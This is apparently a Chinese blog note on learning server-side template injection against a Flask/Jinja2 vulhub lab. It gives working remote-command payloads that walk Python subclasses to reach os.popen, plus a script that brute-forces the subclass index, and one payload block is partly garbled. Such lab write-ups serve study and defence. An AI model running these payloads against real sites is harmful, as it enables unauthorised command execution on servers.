









# SSTI笔记

## 前言

之前对于SSTI的payload构造不是很了解，今天打算重新学一下，了解payload的构造方法

10月份的时候闲的无聊就在挖公益SRC，遇到了一个tomcat的站，然后在Freebuf找到了一个挖洞经验分享，他就用到了Burpsuite的这个模块。这里插个眼：https://www.freebuf.com/articles/web/247253.html

## 利用点

\_\_class\__

返回对象所属类



\__bases\_\_

以元组的形式返回一个类所继承的类



\__mro__

以元组形式返回类的解析顺序



\__subclasses__()

返回类下的所有子类



\__init__

获取每个类的\__init\_\_函数

funtions.\__globals__

用于获取function所处空间下可使用的module、方法以及所有变量。



## 基本注入思路

利用\_\_class\_\_拿到对应的类、利用\__base\_\_拿到基类、用\_\_subclasses\_\_()拿到可利用的类，尝试利用这些类进行getshell

## 实例

靶场来源于vulhub docker搭建的靶场

访问靶场


尝试检测是否存在注入http://192.168.35.128:8000/?name={{123*2}}


发现得到的结果正好是算术表达式的结果。确定存在注入

输入payload尝试获取类,需要注意的是要打开F12，不然是看不见解析出来的结果的，因为得到的是<class 'object'>，html会将他识别为标签解析，所以在网页上无法直接显示

http://192.168.35.128:8000/?name={{123.\_\_class\_\_.\_\_bases\_\_}}



获取子类http://192.168.35.128:8000/?name={{123.\_\_class\_\_.\_\_bases\_\_[0].\_\_subclasses\_\_()}}




然后如果在html里找太麻烦了，我懒得看，所以可以换一种方式，利用执行语句的方式直接找到函数之后进行命令执行

```python
payload:


  	
  	
    
      {{ b['eval']('__import__("os").popen("id").read()') }}
    
  	
 	



```



## 后记

之前一直在尝试用popen也就是固定的位置，本机测出来的128索引，但是一直失败，不知道为啥，然后去靶机里面查看了才知道是位置不同，踩了好久的坑。。最后测出来popen函数的位置在117

```python
payload：{{"".__class__.__bases__[0].__subclasses__()[117].__init__.__globals__.popen('whoami').read()}}
```


其实也可以利用python写一个简单的脚本遍历这个参数

```python
import requests
for i in range(0,1000):

    url = 'http://192.168.35.128:8000/?name={{"".__class__.__bases__[0].__subclasses__()[%d].__init__.__globals__.popen(\'whoami\').read()}}'% i
    response = requests.get(url)
    if response.status_code == 200:
        print(i)
        break
```



因为错误的时候服务器是返回的500错误码，所以我直接利用200进行判断了，可以根据具体情况修改。